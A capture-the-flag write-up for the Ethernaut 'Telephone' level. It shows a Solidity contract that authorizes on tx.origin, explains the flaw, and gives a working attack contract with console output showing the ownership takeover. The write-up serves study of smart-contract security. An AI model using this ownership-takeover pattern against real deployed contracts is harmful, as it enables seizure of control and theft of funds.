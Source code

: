 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg">

## Target Contract Review
 
Given contarct.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

As usual, we should change the owner address in the contract to our own address. In this senario, there is function which can change owner's address while ```tx.origin``` is not equal to msg.sender. Shortly, tx.origin is global variable refers to the original external account that started the transaction.

So never use ```tx.origin``` method for authorization, another contract can have a method which will call your contract (where the user has some funds for instance) and your contract will authorize that transaction as your address is in ```tx.origin```.
You should use msg.sender for authorization (if another contract calls your contract msg.sender will be the address of the contract and not the address of the user who called the contract).

## Subverting

My attack contract.

```solidity
pragma solidity ^0.6.0;

import './Telephone.sol';

contract Attack{

    address payable owner;
    Telephone _targetcontract;

    constructor(Telephone _taget) public{
        _targetcontract = Telephone(_taget);
        owner = payable(msg.sender);
    }

    function attack() public{
        	_targetcontract.changeOwner(owner);
    }
}
```
For explain the code, we must first know which contract address the target is.Then call ```changeOwner()``` function as **msg.sender** of telephone contract. As a consequence, we will pass the condition.

Learn contract address.
```js
await contract
n {methods: {…}, abi: Array(3), address: '0x822962fdf052E28fB48a45ACaf9564F46675d8ed', transactionHash: undefined, constructor: ƒ, …}

```
> 0x822962fdf052E28fB48a45ACaf9564F46675d8ed

Deploy the attack contract and enter target's contract address to constructor.

Check owner of the contract before we deploy the attack contractç

```solidity
await contract.owner()
'0x0b6F6CE4BCfB70525A31454292017F640C10c768'
```
<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Telephone/img/metamask.png">

Now check the owner again and we solved again.
```solidity
await contract.owner()
'0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b'
```
**_by wasny0ps_**
